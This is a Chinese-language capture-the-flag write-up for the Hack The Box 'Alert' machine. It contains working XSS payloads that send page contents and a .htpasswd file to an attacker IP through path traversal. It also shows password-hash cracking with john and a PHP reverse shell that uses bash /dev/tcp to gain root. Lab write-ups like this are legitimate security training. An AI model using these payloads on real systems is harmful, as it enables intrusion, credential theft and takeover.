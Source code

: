 ```yaml
---
title: "HTB-Alert"
date: 2024-11-30
categories: 
  - "HTB-Machine"
tags: 
  - "hackthebox"
  - "linux"
---
```


## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Easy |

## Nmap Scan

```
nmap alert.htb -sC -sV -T4 -Pn
```

![](./images/image-129.png)

开放端口：22、80，httpserver是Apache

进入80端口的网页，发现存在Markdown文件上传

![](./images/image-130.png)

根据题目名称Alert猜测，应该与XSS漏洞有关

## Subdomain Fuzz

```
ffuf -w main.txt -u http://alert.htb -H "Host:FUZZ.alert.htb" -ac
```

![](./images/image-131.png)

发现存在statistics的子域名

## XSS

这个是通过XSS读取到message.php的内容。具体操作如下：  
使用这个载荷，这个是预览md的时候的URL模板，把page设置为messages。

```
<script>
fetch("http://alert.htb/index.php?page=messages")
.then(response => response.text()) // Convert the response to text
.then(data => {
fetch("http://10.10.16.90/?data=" + encodeURIComponent(data));
})
.catch(error => console.error("Error fetching the messages:", error));
</script>
```

然后另起一个**python -m http.server 80**，会收到**URL**加密后的页面内容

```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <link rel="stylesheet" href="css/style.css">
    <title>Alert - Markdown Viewer</title>
</head>
<body>
    <nav>
        <a href="index.php?page=alert">Markdown Viewer</a>
        <a href="index.php?page=contact">Contact Us</a>
        <a href="index.php?page=about">About Us</a>
        <a href="index.php?page=donate">Donate</a>
        <a href="index.php?page=messages">Messages</a>    </nav>
    <div class="container">
        <h1>Messages</h1><ul><li><a href='messages.php?file=2024-03-10_15-48-34.txt'>2024-03-10_15-48-34.txt</a></li></ul>
    </div>
    <footer>
        <p style="color: black;">© 2024 Alert. All rights reserved.</p>
    </footer>
</body>
</html>
```

从这里可以看到管理员查看的时候是有**messages.php?file**这个参数的。

在markdown文件中插入有效载荷

```
<script>
fetch("http://alert.htb/messages.php?file=filepath")
  .then(response => response.text())
  .then(data => {
    fetch("http://10.10.xx.xx:8888/?file_content=" + encodeURIComponent(data));
  });
</script>
```

经过尝试，无法直接读取到/etc/passwd这种敏感文件

但是考虑到web服务器使用的是Apache，可以参考一下这篇文章

- [什么是.htpasswd文件？-CSDN博客](https://blog.csdn.net/cunjiu9486/article/details/109071899)

于是有效载荷就修改为了这样↓

```
<script>
fetch("http://alert.htb/messages.php?file=../../../../../../../var/www/statistics.alert.htb/.htpasswd")
  .then(response => response.text())
  .then(data => {
    fetch("http://10.10.16.11:8888/?file_content=" + encodeURIComponent(data));
  });
</script>
```

将其上传后，复制分享链接

![](./images/image-132.png)

然后进入到Contact Us

![](./images/image-133.png)

点击发送，会在终端收到加密字符串

![](./images/image-134.png)

```
%3Cpre%3Ealbert%3A%24apr1%24bMoRBJOg%24igG8WBtQ1xYDTQdLjSWZQ%2F%0A%3C%2Fpre%3E%0A

<pre>albert:$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/</pre>
```

这看起来像是一种hash加密

```
john --wordlist=/usr/share/wordlists/rockyou.txt --format=md5crypt-long alert.hash
```

![](./images/image-135.png)

使用SSH登录可以得到User.txt

![](./images/image-136.png)

## Privilege Escalation

遍历目录没有什么可疑文件，并且发现另一个用户david

![](./images/image-137.png)

上传linpeas，发现8080是打开的

![](./images/image-138.png)

将端口转发出来

```
ssh -L 8080:127.0.0.1:8080 albert@alert.htb
```

![](./images/image-139.png)

在/opt目录下发现这个Website Monitor的文件夹，并且是有root权限的

![](./images/image-140.png)

```
<?php exec("/bin/bash -c 'bash -i >/dev/tcp/10.10.16.11/100 0>&1'"); ?>
```

写入反弹Shell的木马，并且设置监听

尝试访问下面这个路径

```
http://127.0.0.1:8080/config/hyh.php
```

得到反弹Shell，拿到Root权限

![](./images/image-141.png)

## Summary

这个XSS漏洞与以往CTF中遇到的XSS有点不一样

他并不是用来窃取身份凭证，而是用来进行主动访问，将信息外带
